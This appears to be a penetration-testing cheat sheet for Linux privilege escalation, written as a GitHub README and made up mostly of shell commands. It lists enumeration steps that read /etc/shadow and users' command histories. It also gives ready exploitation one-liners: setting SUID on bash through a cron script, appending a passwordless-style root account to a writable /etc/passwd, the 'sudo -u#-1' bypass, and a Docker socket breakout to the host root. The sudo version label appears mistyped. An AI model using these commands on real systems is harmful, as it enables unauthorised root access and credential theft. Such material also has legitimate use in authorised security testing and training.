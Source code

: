 ## Linux Privilege Escalation

### Enumeration
-> Get system distribution and version
```
cat /etc/*-release
```

-> Get kernel version
```
cat /proc/version   
uname -a
```

-> View variable environments 
```
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
cat ~/.zshrc
```

-> View user command history
```
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

-> Services
```
ps -aux
cat /etc/service
```

-> View network interfaces and connections
```
ifconfig
ip addr
```

-> Get DNS resolver and hosts mapped to an IP
```
cat /etc/resolv.conf
cat /etc/hosts
```

-> Get system user, group and password information
```
cat /etc/passwd
cat /etc/shadow
```

### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
-> Exploitation
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
-> Exploitation
https://gtfobins.github.io/

### Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
```
-> Exploitation  
```
echo "okays:$(openssl passwd okay2):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```
-> list images  
```
docker images
```
-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]

-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
